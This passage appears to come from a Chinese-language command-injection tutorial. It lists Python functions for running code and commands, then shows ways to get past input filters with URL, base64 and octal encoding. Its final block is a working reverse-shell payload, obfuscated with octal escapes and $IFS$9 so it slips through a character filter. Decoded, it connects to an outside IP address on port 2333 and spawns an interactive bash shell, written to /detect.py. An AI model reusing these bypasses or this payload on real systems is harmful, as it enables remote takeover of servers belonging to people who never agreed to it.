 > 
上面的代码经过编译后可以执行命令操作，如： java RuntimeTest “whoami”，执行命令操作


## Python

> 
代码执行


```
exec(string)		# Python代码的动态执行
eval(string)		# 返回表达式或代码对象的值
execfile(string)	# 从一个文件中读取和执行Python脚本
input(string)		# Python2.x 中 input() 相等于 eval(raw_input(prompt)) ，用来获取控制台的输入
compile(string)		# 将源字符串编译为可执行对象

```

> 
命令执行


```
system()		# 执行系统指令
popen()			# popen()方法用于从一个命令打开一个管道
subprocess.call # 执行由参数提供的命令
spawn 			# 执行命令

```

## 常见过滤绕过

### 编码绕过

> 
如果命令注入的网站过滤了某些分割符，可以将分隔符编码后（url编码，base64等）绕过


### 八进制绕过

> 
$(printf “\154\163”)//ls命令，这个编码后可以拼接


```
//这里过滤了-.等符号，只允许0-9a-zA-Z"&gt;\\\$();
echo$IFS$9$(printf$IFS$9"\163\75\137\137\151\155\160\157\162\164\137\137\50\42\163\157\143\153\145\164\42\51\56\163\157\143\153\145\164\50\137\137\151\155\160\157\162\164\137\137\50\42\163\157\143\153\145\164\42\51\56\101\106\137\111\116\105\124\54\137\137\151\155\160\157\162\164\137\137\50\42\163\157\143\153\145\164\42\51\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\64\67\56\61\60\60\56\61\62\60\56\61\62\63\42\54\62\63\63\63\51\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\137\137\151\155\160\157\162\164\137\137\50\42\163\165\142\160\162\157\143\145\163\163\42\51\56\143\141\154\154\50\133\42\57\142\151\156\57\142\141\163\150\42\54\42\55\151\42\135\51\73")&gt;$(printf$IFS$9"\57")detect$(printf$IFS$9"\56")py
echo 'python反弹shell的payload' &gt; /detect.py

```
